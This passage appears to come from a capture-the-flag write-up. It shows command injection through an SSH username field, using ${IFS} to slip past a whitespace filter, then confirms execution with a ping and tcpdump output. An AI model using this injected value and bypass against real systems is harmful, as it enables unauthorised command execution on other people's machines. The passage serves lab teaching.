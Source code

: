 There are a couple ways to get whitespace without spaces in a Linux terminal
context. I’ll use `${IFS}` as a Bash environment variable that is a space, and
it kind of works:

![image-20240227104221635](../img/image-20240227104221635.png)

It’s making the command:

    
    
    ssh -i [key] 0xdf;ping${IFS}-c${IFS}1${IFS}10.10.14.6@localhost
    

It’s interesting that it handles 0xdf as `0.0.0.223`, but not important. It’s
failing SSH, and then trying to ping `10.10.14.6@localhost`. So my command is
a bit broken, but it’s working. I’ll add a comment `#` to the end:

![image-20240227105830608](../img/image-20240227105830608.png)

It shows failure, but at my box with `tcpdump`, I see a ICMP packet:

    
    
    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    10:57:55.045594 IP 10.10.11.230 > 10.10.14.6: ICMP echo request, id 5, seq 1, length 64
    10:57:55.045627 IP 10.10.14.6 > 10.10.11.230: ICMP echo reply, id 5, seq 1, length 64
    